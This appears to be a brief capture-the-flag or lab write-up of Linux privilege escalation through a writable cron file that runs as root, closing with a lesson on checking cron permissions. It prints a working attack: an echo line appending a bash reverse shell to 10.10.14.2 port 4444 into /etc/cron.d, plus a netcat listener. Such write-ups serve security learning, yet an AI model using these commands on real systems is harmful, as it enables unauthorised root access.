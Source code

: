 Category: Privilege Escalation (Linux)
Difficulty: Hard

Summary:Found a writable script inside /etc/cron.d that executes every minute as root. By injecting a reverse shell command, I gained root privileges.

Steps:
# Found cronjob via linpeas
ls -la /etc/cron.d
# Edited writable file
echo "* * * * * root bash -i >& /dev/tcp/10.10.14.2/4444 0>&1" >> /etc/cron.d/backup.sh
# Set up listener
nc -lvnp 4444

Lesson: Always check cron permissions and misconfigured scripts in automated jobs.
